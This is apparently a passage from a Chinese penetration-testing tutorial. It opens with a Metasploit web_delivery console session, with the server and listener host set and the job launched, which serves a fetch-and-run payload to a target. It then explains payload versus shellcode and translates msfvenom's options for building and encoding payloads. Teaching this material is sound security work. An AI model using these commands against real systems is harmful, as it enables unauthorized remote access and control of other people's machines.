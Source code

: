 

msf5 > use exploit/multi/script/web_delivery

msf5 exploit(multi/script/web_delivery) > set srvhost 192.168.1.30

srvhost => 192.168.1.30

msf5 exploit(multi/script/web_delivery) > set lhost 192.168.1.30

lhost => 192.168.1.30

msf5 exploit(multi/script/web_delivery) > set uripath lyshark

uripath => lyshark

msf5 exploit(multi/script/web_delivery) > exploit -j -z



















使用MSF生成shellcode

payload和shellcode的区别

Payload是是包含在你用于一次漏洞利用（exploit）中的ShellCode中的主要功能代码。因为Payload是包含在ShellCode中的，ShellCode是真正的被输入到存在漏洞的程序中的，并且ShellCode负责把程序的流程最终转移到你的Payload代码中。所以对于一个漏洞来说，ShellCode就是一个用于某个漏洞的二进制代码框架，有了这个框架你可以在这个ShellCode中包含你需要的Payload来做一些事情。



利用msfvenom生成payload

给个中文版的msfvenom的命令行选项：



Options:

    -p, --payload    <payload>       指定需要使用的payload(攻击荷载)。如果需要使用自定义的payload，请使用&#039;-&#039;或者stdin指定

    -l, --list       [module_type]   列出指定模块的所有可用资源. 模块类型包括: payloads, encoders, nops, all

    -n, --nopsled    <length>        为payload预先指定一个NOP滑动长度

    -f, --format     <format>        指定输出格式 (使用 --help-formats 来获取msf支持的输出格式列表)

    -e, --encoder    [encoder]       指定需要使用的encoder（编码器）

    -a, --arch       <architecture>  指定payload的目标架构

        --platform   <platform>      指定payload的目标平台

    -s, --space      <length>        设定有效攻击荷载的最大长度

    -b, --bad-chars  <list>          设定规避字符集，比如: &#039;\x00\xff&#039;
